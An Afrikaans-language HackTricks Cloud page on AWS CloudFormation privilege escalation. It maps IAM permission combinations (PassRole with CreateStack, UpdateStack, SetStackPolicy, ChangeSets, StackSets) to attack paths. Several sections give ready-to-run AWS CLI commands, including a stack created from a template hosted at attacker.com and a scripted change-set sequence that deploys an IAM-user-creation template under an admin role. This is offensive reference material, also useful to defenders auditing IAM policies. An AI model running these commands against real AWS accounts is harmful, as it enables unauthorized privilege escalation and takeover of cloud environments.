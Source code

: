 # AWS - Cloudformation Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Vir meer inligting oor cloudformation kyk:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

'n Aanvaller met hierdie toestemmings **kan priviledge verhoog** deur 'n **CloudFormation stapel** te skep met 'n pasgemaakte sjabloon, gehos op hul bediener, om **aksies uit te voer onder die toestemmings van 'n gespesifiseerde rol:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
In die volgende bladsy het jy 'n **uitbuiting voorbeeld** met die bykomende toestemming **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potensiële Impak:** Privesc na die cloudformation diensrol wat gespesifiseer is.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In hierdie geval kan jy 'n **bestaande cloudformation stapel** misbruik om dit op te dateer en voorregte te verhoog soos in die vorige scenario:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **jouself `UpdateStack` toestemming** oor 'n stapel te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na die cloudformation diensrol gespesifiseer.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

As jy hierdie toestemming het maar **geen `iam:PassRole`** nie, kan jy steeds **die stapels** wat gebruik word opdateer en die **IAM Rolle wat hulle reeds aangeheg het** misbruik. Kyk na die vorige afdeling vir 'n eksploit voorbeeld (moet net nie enige rol in die opdatering aandui nie).

Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **jouself `UpdateStack` toestemming** oor 'n stapel te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na die cloudformation diensrol wat reeds aangeheg is.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

'n Aanvaller met toestemmings om **'n rol oor te dra en 'n ChangeSet te skep & uit te voer** kan **'n nuwe cloudformation stapel skep/opdateer en die cloudformation diensrolle misbruik** net soos met die CreateStack of UpdateStack.

Die volgende eksploit is 'n **variasie van die**[ **CreateStack een**](./#iam-passrole-cloudformation-createstack) wat die **ChangeSet toestemmings** gebruik om 'n stapel te skep.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **vir jouself `ChangeSet` toestemmings** oor 'n stap te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na cloudformation diens rolle.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dit is soos die vorige metode sonder om **IAM rolle** oor te dra, so jy kan net **alreeds aangehegte eenhede misbruik**, net die parameter aanpas:
```
--change-set-type UPDATE
```
**Potensiële Impak:** Privesc na die cloudformation diensrol wat reeds aangeheg is.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

'n Aanvaller kan hierdie toestemmings misbruik om StackSets te skep/op te dateer om arbitrêre cloudformation rolle te misbruik.

**Potensiële Impak:** Privesc na cloudformation diensrolle.

### `cloudformation:UpdateStackSet`

'n Aanvaller kan hierdie toestemming misbruik sonder die passRole toestemming om StackSets op te dateer om die aangehegte cloudformation rolle te misbruik.

**Potensiële Impak:** Privesc na die aangehegte cloudformation rolle.

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

